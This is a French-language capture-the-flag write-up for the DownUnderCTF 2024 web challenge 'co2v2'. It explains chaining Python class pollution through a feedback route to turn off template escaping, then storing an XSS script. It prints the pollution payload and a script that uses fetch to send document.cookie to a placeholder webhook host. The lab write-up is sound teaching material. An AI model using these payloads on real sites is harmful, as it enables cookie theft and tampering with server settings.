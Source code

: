 ```yaml
---
title: "co2v2"
excerpt: "Web, downunder 2024"
coverImage: "/assets/blog/hello-world/cover.jpg"
date: "2024-07-08"
author:
  name: dolipr4necrypt0
  picture: "/assets/blog/authors/dolipr4necrypt0.png"
ogImage:
  url: "/assets/blog/hello-world/cover.jpg"
---
```


[Source du challenge](https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main/web/co2v2/src)

Ce challenge est la suite de co2 dans laquelle on a trouvé une vulnérabilité de type prototype pollution : [https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution). Cette vulnérabilité nous permettait de réécrire n'importe quelle variable globale à travers la route /save_feedback avec comme payload ```{"__class__":{"__init__":{"__globals__":{"GLOBAL_VAR":"VALUE"}}}}```. Ce payload nous permet de remonter la hiérarchie python jusqu'à tomber sur l'objet __globals__ et ainsi accéder aux dictionnaires des variables globales.

Dans ce challenge, la première chose que l'on remarque c'est la présence d'un bot xss avec le flag dans les cookies. Lorsqu'on accède à la route /api/v1/report, on déclenche le bot xss qui visit la page d'accueil. On sait donc que l'on doit introduire un script js dans la page d'accueil. Ce qui tombe bien vu que les blog posts sont affichés sur l'accueil lorsque les posts sont publics.

On commence par introduire des simples balises html dans un post pour voir le résultat, malheureusement le html n'est pas interprété. En lisant le code, on voit que notre input est passé directement dans la base de donnée sans modification. On remarque aussi une variable globale intéressante TEMPLATES_ESCAPE_ALL = True, qui va faire le lien avec le premier challenge. Cette variable globale est passé au moteur de Template qui va s'occuper de l'escaping.

On peut passer TEMPLATES_ESCAPE_ALL à False grâce à la vulnérabilité du premier challenge. Cependant, nos balises html ne sont toujours pas interprétés. Le problème est que le moteur de template est chargé une unique fois au démarrage et que la modification de TEMPLATES_ESCAPE_ALL n'est pas suffisante. Il nous faut recharger le moteur de Template avec la modification de notre variable. Heureusement, la route /admin/update-accepted-templates nous permet de faire cette action.

Cette fois ci, les balises html sont interprétés. Pour finir, ils nous suffit d'introduire le script suivant dans un blog post public
```javascript
<script>fetch("http://<webhook>/"+btoa(document.cookie))</script>
```
 et de trigger la visite du bot xss pour récupérer les cookies et le flag.

